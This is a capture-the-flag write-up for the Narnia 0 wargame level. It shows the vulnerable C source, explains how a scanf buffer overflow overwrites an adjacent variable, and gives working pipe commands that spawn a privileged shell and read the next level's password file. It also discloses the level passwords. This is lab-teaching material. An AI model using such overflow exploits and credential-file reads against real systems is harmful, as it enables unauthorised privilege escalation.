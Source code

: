 # Narnia 0

Password: `narnia0`

The C code is as follows (stripped license for brevity):

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

`Scanf` is not bounds checked, the two buffers `val` and `buf` are right next to each other. By crafting a string that overflows the bounds of `buf`, we can overwrite `val` - this can be simply tested by entering a string 24 characters long: the final four will replace the contents of Val (if you enter 23 characters, you will see the null byte 00, which terminates the string, overriding the first position of the val variable (as numbers on this architecture are rendered backwards)).

I ran into two problems at this point. First, copying and pasting non-printable or extended ASCII characters didn't work. deadbeef is the bytes 0xEF, 0xBE, 0xAD and 0xDE (remember its backwards), which corresponds to the extended ASCII values `▐¡╛∩`. But after trying to get those into the application, they always ended up mangled.

The solution was to use unix piping, never letting the characters be read or printed via the screen. I got a hint for this so can't take too much credit, particularly the use of `echo -e` to evaluate escape sequences: this command will feed the right data:

`echo -e "01234567890123456789\xef\xbe\xad\xde" | /narnia/narnia0`

However, the shell immediately closes; looking at the code it starts the shell system op, but then that op is immediately disposed when the program exits in the next instruciton.

The fix to get past this is to pass `cat` through in the pipe as well, keeping the shell open until cat exits. Why the following works and not a straight `cat` for the password, I don't know - the `cat` for the password seems to get executed afterwards and results in a permission denied message:

`{ echo -e "01234567890123456789\xef\xbe\xad\xde"; cat; } | /narnia/narnia0`

Once executing the above, even though no prompt is shown, you can `cat /etc/narnia_pass/narnia1` to get the password for narnia1, `efeidiedae`